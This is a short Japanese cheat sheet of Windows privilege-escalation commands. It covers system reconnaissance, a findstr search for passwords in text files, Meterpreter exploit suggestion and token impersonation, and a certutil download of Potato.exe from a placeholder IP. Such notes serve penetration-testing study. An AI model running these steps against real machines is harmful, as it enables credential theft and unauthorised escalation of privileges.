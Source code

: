 # 権限昇格

## 情報収集

```shell
# 後述の WES-NG のインプットにできるため、コピペで kali 上にファイル保存する
systeminfo
```

```shell
# 管理者としてプロンプト実行しないと表示されない権限もある
whoami /priv
whoami /groups
```

```shell
net user
net user <user>
```

```shell
ipconfig
arp -a
route print
netstat -ano
```

```shell
findstr /si password *.txt
```

```shell
sc query
sc query windefend
```

```shell
netsh firewall show state
```

```shell
meterpreter> run post/multi/recon/local_exploit_suggester
```

```shell
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token <domain\username>
```

```shell
# wget と同じ効果
certutil -urlcache -f http://<ip>/Potato.exe Potato.exe
```

```shell
# インストールされているソフトウェア情報を取得
wmic product get name,version,vendor
```
